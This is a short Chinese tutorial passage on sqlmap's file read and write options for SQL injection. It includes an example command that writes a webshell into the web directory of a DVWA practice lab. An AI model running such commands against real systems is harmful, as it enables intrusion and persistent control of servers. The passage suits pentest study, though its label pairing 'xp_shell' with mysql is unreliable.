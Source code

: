 ### 读取与写入文件

首先找需要网站的物理路径，其次需要有可写或可读权限。

| –file-read=RFILE | 从后端的数据库管理系统文件系统读取文件 （物理路径） |
| :--- | :--- |
| –file-write=WFILE | 编辑后端的数据库管理系统文件系统上的本地文件 （mysql xp\_shell） |
| –file-dest=DFILE | 后端的数据库管理系统写入文件的绝对路径 |

```
#示例：
sqlmap -r “c:\request.txt” -p id –dbms mysql –file-dest “e:\php\htdocs\dvwa\inc\include\1.php” –file-write 
“f:\webshell\1112.php”
```

\#注：mysql不支持列目录，仅支持读取单个文件。sqlserver可以列目录，不能读写文件，但需要一个（xp\_dirtree函数）

